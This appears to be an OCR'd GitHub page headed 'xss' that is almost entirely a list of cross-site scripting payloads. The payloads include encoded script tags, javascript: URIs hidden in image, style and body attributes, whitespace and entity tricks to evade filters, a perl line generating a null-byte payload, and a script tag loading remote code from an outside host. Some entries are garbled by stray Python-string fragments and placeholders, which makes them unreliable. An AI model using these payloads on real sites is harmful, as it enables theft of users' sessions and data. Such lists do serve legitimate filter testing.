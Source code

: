 
# xss

document.cookie = "USERID=<escaped-value>; path=/; secure; HttpOnly";

xss payloads

%253Cscript%253Ealert('XSS')%253C%252Fscript%253E

&lt;XSS STYLE="behavior: url(%(htc)s);"&gt;


&lt;STYLE&gt;li {list-style-image: url("javascript:javascript:alert(1)");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS

&lt;IMG STYLE="xss:expr/*XSS*/ession(javascript:alert(1))"&gt;

&lt;XSS STYLE="xss:expression(javascript:alert(1))"&gt;

&lt;STYLE&gt;.XSS{background-image:url("javascript:javascript:alert(1)");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;

&lt;HTML xmlns:xss&gt;&lt;?import namespace="xss" implementation="%(htc)s"&gt;&lt;xss:xss&gt;XSS&lt;/xss:xss&gt;&lt;/HTML&gt;""","XML namespace."),("""&lt;XML ID="xss"&gt;&lt;

I&gt;&lt;B&gt;&lt;IMG SRC="javas&lt;!-- --&gt;cript:javascript:alert(1)"&gt;&lt;/B&gt;&lt;/I&gt;&lt;/XML&gt;&lt;SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"&gt;&lt;/SPAN&gt;

&lt;HTML&gt;&lt;BODY&gt;&lt;?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"&gt;&lt;?import namespace="t" implementation="#default#time2"&gt;&lt;t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;javascript:alert(1)&lt;/SCRIPT&gt;"&gt;&lt;/BODY&gt;&lt;/HTML&gt;

'';!--"&lt;XSS&gt;=&{()}

&lt;IMG SRC="javascript:alert('XSS');"&gt;

&lt;IMG SRC=javascript:alert('XSS')&gt;

&lt;IMG SRC=JaVaScRiPt:alert('XSS')&gt;

&lt;IMG SRC=javascript:alert("XSS")&gt;

&lt;IMG SRC=`javascript:alert("RSnake says, 'XSS'")`&gt;

&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;"&gt;

&lt;IMG SRC="jav   ascript:alert('XSS');"&gt;

&lt;IMG SRC="jav&#x09;ascript:alert('XSS');"&gt;

&lt;IMG SRC="jav&#x0A;ascript:alert('XSS');"&gt;

&lt;IMG SRC="jav&#x0D;ascript:alert('XSS');"&gt;

perl -e 'print "&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;";' &gt; out


&lt;IMG SRC=" &#14;  javascript:alert('XSS');"&gt;

&lt;SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"&gt;&lt;/SCRIPT&gt;

&lt;BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")&gt;

